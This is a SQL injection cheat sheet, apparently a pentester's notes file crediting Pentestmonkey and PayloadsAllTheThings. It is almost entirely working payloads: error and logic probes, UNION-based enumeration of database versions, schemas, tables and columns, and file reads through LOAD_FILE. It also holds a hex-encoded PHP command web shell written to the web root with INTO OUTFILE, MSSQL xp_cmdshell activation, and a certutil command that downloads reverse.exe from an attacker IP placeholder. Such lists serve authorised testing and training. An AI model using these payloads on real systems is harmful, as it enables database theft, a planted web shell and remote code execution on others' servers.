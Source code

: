 Pentestermonkey SQL injection cheat sheet (https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

## Error
	'
	"
	1 or @@version=1); -- -

## Logic
**Server expects string**

	1' or 'a'='a
	1' or 'a'='b
	') or 1=1; -- -

**Server expects integer**

	1 or 'a'='a'
	1 or 'a'='b'

## Union Select
	1' UNION SELECT null; -- -
	1' UNION SELECT null,null; -- -
	...
	Until the number of fields is found. Then change null for string or integer to find it's type

## Injections

### Info
	1' UNION SELECT null,@@version-- -
	1' UNION SELECT null,version()-- -
	1' UNION SELECT null,sqlite_version()-- -
	1' UNION SELECT null,@@database-- -
	1' UNION SELECT null,database()-- -
	1' union select 1,group_concat(schema_name)from information_schema.schemata-- -

### Tables
	1' union select 1,group_concat(table_name) from information_schema.tables where table_schema = database()-- -
	1' union select 1, table_name FROM information_schema.tables-- -

### Columns
	1' union select 1,group_concat(column_name) from information_schema.tables where table_schema = database()-- -
	id=1' union select 1, column_name FROM information_schema.tables-- -

### Write files
	1' union select 1,'Hello from SQLI' INTO OUTFILE '/var/www/html/shell.php' from [database].queue-- -

###### Write CMD shell
	 1' union select 1,unhex('3C3F7068702073797374656D28245F4745545B22636D64225D29203F3E') INTO OUTFILE '/var/www/html/shell1.php' from [database].queue-- -

### Read files
	1' UNION SELECT 1,LOAD_FILE("/var/www/html/index.php")-- -

## Microsft SQL Server
**Activate xp_cmdshell**

	'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --

Execute command line commands

	'; EXEC xp_cmdshell '[Command]'; --
	'; EXEC xp_cmdshell 'certutil -urlcache -f http://[Attacker IP]:8000/reverse.exe C:\Windows\Temp\reverse.exe'; --


